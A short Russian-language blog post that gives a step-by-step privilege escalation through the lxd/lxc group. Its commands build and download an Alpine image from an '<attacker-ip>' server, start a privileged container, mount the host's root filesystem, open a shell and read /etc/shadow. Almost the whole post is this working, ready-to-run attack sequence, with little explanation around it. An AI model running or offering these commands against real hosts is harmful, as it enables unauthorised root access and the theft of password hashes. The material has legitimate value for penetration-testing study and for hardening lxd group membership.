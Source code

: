 ```yaml
---
title: "From LXC to etc"
date: 2022-06-02T18:16:29+03:00
draft: false
tags: ["security", "lxc"]
---
```



Использование чистого lxc в природе сейчас встретишь не часто, но в некоторых дистрибутивах он есть, например в Ubuntu 20.04. 
И раз у нас есть такая крутая штука, то странно ей не воспользоваться.  
Вообще это довольно интересный и своеобразный вектор атаки, и пишут про него не особо часто (ну да, ведь везде docker).  

<!--more-->

## Собираем образ на своей машине
```shell
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sudo ./build-alpine -a i686
```

## Скачиваем файл
Полученный файл можно куда-то выгрузить, а можно раздать с веб-сервера, например так:
```shell
python3 -m http.server 8080
```

Забираем файл так:
```shell
wget http://<attacker-ip>:8080/alpine-v3.16-i686-20220603_1113.tar.gz
```

Или так:
```shell
curl http://<attacker-ip>:8080/alpine-v3.16-i686-20220603_1113.tar.gz --output alpine-v3.16-i686-20220603_1113.tar.gz
```

Как альтернативный вариант, можем использовать сразу образ из репозитория:
```shell
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

## Импортируем образ
```
lxc image import ./alpine*.tar.gz --alias evilimage
```

## Предварительно проверяем, используется ли lxc
```
ip a | grep lxd
lxc list
lxc image list
```

И если ничего нет, то запускаем начальную настройку:
```shell
lxd init
```

## Запускаем образ
```shell
lxc init evilimage evilcontainer -c security.privileged=true
```

## Монтируем /root в образ
```shell
lxc config device add evilcontainer victimdevice disk source=/ path=/mnt/root recursive=true
```

## Запускаем и радуемся результату
```shell
lxc start evilcontainer
lxc exec evilcontainer /bin/sh
cat /mnt/root/etc/shadow
```

### Reference
[lxd/lxc Group - Privilege escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)  
[Linux Privilege Escalation – Exploiting the LXC/LXD Groups](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/)

